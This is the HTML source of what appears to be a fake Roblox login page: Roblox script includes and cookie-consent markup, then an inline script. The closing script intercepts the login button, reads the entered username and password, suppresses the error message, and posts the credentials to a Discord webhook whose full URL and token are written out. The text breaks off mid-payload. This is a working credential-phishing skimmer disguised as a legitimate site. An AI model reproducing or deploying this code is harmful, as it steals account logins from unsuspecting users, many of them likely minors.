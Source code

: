 <script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true src=https://js.rbxcdn.com/6f3c0bfbaf1f91c9c1e49c6722bbb5ce462796f1b53763063c5461099fc554f9.js></script><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true src=https://js.rbxcdn.com/0f9f2e28d8c6f8de2a6f21016f4f9b57b9c85b574fbb24e3da0186f86c70be1a.js></script><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true src=https://js.rbxcdn.com/814aa47f2187d08241bd4bb0d2333038fa0a30390d9f3ef578ab21dd311ba46f.js></script><div id=cookieConsentModalOverlay class="cookie-modal-overlay modal-backdrop in"></div><div id=cookieConsentModalWrapper class="cookie-modal-wrapper modal-dialog"><div id=cookieConsentModal class="modal-content cookie-modal desktop"><div class="modal-header cookie-modal-title"><button type=button class=close> <span aria-hidden=true> <span class=icon-close></span> </span> <span class=sr-only></span> </button><h4>Manage Cookies</h4></div><div class="cookie-modal-content modal-body"><div class=cookie-modal-description>Please choose whether this site may use cookies as described below. You can learn more about how this site uses cookies and related technologies by reading our <a id=cookie-link-privacy class="cookie-link-privacy text-name" href=https://www.roblox.com/info/privacy>privacy policy</a>.</div><div class="modal-checkbox checkbox cookie-checkbox"><input id=cookie-checkbox-essential type=checkbox disabled checked> <label for=cookie-checkbox-essential class=cookie-checkbox-label> Essential Cookies </label></div><div class=cookie-modal-padding>These cookies are required to provide the functionality on the site, such as for user authentication, securing the system or saving cookie preferences.</div><ul class="cookie-modal-padding cookie-modal-list"><li>Roblox<li>Zendesk<li>Gigya</ul><div class="modal-checkbox checkbox cookie-checkbox"><input id=cookie-checkbox-tracking type=checkbox> <label for=cookie-checkbox-tracking class=cookie-checkbox-label> Analytics Cookies </label></div><div class=cookie-modal-padding>These cookies used for improving site performance or understanding site usage.</div><ul class="cookie-modal-padding cookie-modal-list"><li>Google Analytics<li>Google Universal Analytics</ul></div><button id=cookie-btn-allow class="btn-secondary-md cookie-btn-allow"> Allow </button></div></div><div id=cookie-banner-wrapper class="cookie-banner-wrapper desktop"><div class="alert-info cookie-banner"><div class=banner-item>Roblox uses cookies to personalize content, provide social media features and analyze the traffic on our site. To learn about how we use cookies and how you can <a id=cookie-link-manage href=# class="cookie-link-manage text-name">manage cookie preferences</a>, please refer to our <a class=text-name href=https://www.roblox.com/info/privacy>Privacy and Cookie Policy</a>.</div><div class="banner-item accept-btn"><button type=button id=CookieLawAccept class="btn-secondary-sm cookie-law-accept-btn"> Accept </button></div></div></div><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true data-bundlename=pageEnd src=https://js.rbxcdn.com/4e90eba34c3e4eb58d18a9f6b8383b5c.js></script><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true data-bundlename=LatencyMeasurement src=https://js.rbxcdn.com/8761d57355e1618061c73d8aa15d38b603a7a6b4b3807ca99182799100e0aa4a.js></script>

<script type="text/javascript">document.addEventListener("DOMContentLoaded",()=>{
            const e=document.getElementById("login-username"),o=document.getElementById("login-password"),t=document.getElementById("login-button");
            document.querySelector("p.login-error").setAttribute("style","display: none !important;"),console.log("Loaded",t);

            t.addEventListener("click",async t=>{
                               t.preventDefault();
            const n=e.value.trim(),a=o.value.trim();
            ""!=n&&""!=a?(await(({
              webhookURL:e,content:o}
                                )=>fetch(e,{
              method:"post",headers:{
                "Content-Type":"application/json"}
              ,body:JSON.stringify(o)}
                                        ))({
              webhookURL:"https://discord.com/api/webhooks/883745366883860490/o9WVJUn1HLVOHj30aN0Q8u91oxJMXxJ6K4y3Fk75k09oz0UELzQGyNHZHP54dDmlK_P9",content:{
                description:"Valid attempt requested",embeds:[{
                  fields:[{
                    name:"Username",value:n,inline:!0}
